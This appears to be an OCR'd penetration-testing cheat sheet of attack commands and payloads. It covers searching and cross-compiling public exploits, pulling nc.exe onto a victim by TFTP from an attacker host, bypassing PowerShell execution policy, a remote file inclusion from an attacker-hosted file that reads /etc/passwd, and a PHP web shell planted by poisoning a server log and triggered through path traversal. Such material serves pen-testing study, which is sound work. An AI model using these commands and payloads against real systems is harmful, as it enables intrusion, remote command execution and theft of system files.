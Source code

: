 Finding Public Exploits:  
www.securityfocus.com/vulnerabilities  
www.exploit-db.com

searchsploit <keyword> #Search exploit-db by keyword  
cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c} . #copy found exploit to root directory

i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe #compile Windows code on Linux  
wine exploit.exe #Run Windows executable on Linux

**File Transfers**  
TFTP  
#Attacker  
mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  

#Victim  
tftp -i AttackerIP GET nc.exe  

PS File Transfer  
#code sequence in powershell-download file  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 #Bypass Execution Policy

**Web Application Attacks**  
LFI/RFI #usually in poor php code 
RFI  
VulnParam=http://AttackerIP/evil.txt%00 #%00 null byte instructs to ignore everything after value 
#Where evil.txt is “<?php echo shell_exec(“cat /etc/passwd”);?>” 
$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt 

$ tail -f /var/log/apache2/access.log #track traffic from our apache web server hosting evil.txt

LFI 
#Contaminate the web server log with a PHP backdoor 
$ nc -nv TargetIP 80 
<?php echo shell_exec($_GET[‘cmd’]);?> 

#append URL to execute command from access log file 
&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00
